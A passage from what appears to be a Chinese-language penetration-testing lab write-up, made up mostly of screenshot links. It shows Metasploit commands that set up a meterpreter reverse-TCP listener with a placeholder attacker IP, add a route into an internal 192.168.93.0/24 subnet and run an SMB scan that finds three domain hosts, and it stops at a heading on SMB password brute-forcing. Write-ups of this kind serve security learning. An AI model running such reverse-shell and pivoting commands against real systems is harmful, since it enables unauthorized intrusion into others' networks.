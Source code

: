  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3Yic0ON6adwQia448FlVSQkappgwSY7Q2UXPmGnKwox7Gw5Hx1qu5Nhhicw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YDGcpgY0Q10syR2tyfeQ5ByDItlibko9wgssiayqVCcARichdUwVlFjaUQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3Yh3K3uicicgYSdB9bnVnqBLg5mYOQEXicso8wuQkFYtB7lYEmr0PfIYT6Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YTzYfQIZ1x2vBhusqaXicdvRUE7SYAQ7w3iaMzWBzMibT5BBA8GHicxUlsQ/640?wx_fmt=png&from=appmsg "")  
  
  
尝试使用 crossc2 项目上线 cs，后因 cs 插件对 linux 渗透测试效果不佳，切换至 msf。在 msf 中执行以下操作：  
  

```
msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload linux/x64/meterpreter/reverse_tcp
msf6 > set LHOST <攻击者IP>
msf6 > set LPORT <监听端口>
msf6 > run
```

  
成功上线后，查看路由表发现存在 192.168.93.0/24 网段。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YWOTU2iaqLQn4uyr6KwzP1Z1zUkv7cT7uc5taIhib7HZauyWOXkoJMKeg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YbhvicTaicvrItMGOeHLhXELiaqj8gCWOoK9y0xVTu5iaficTZw22eEWPBuA/640?wx_fmt=png&from=appmsg "")  
  
### 2. 内网扫描  
  
  
使用命令 run autoroute -s 192.168.93.0/24 配置路由，将任务置于后台后，执行以下命令进行内网 smb 存活扫描：  
  

```
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.93.0/24
set threads 10
exploit
```

  
扫描到 192.168.93.10、192.168.93.20、192.168.93.30 三台主机，且发现存在域 TEST。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3Y2Td5No3qF3VNUAxh5DMF0KYaI6Cpl6vza29a8N0DtVEq8Xic8ETzNHw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YGoPicyaKy5Mro6AzdSn0ztReIFqprDVnvV8rWkjial0wMicBPqicHIa9EQ/640?wx_fmt=png&from=appmsg "")  
  
## 四、横向攻击  
  
### 解法 1：smb 密码爆破与利用  
  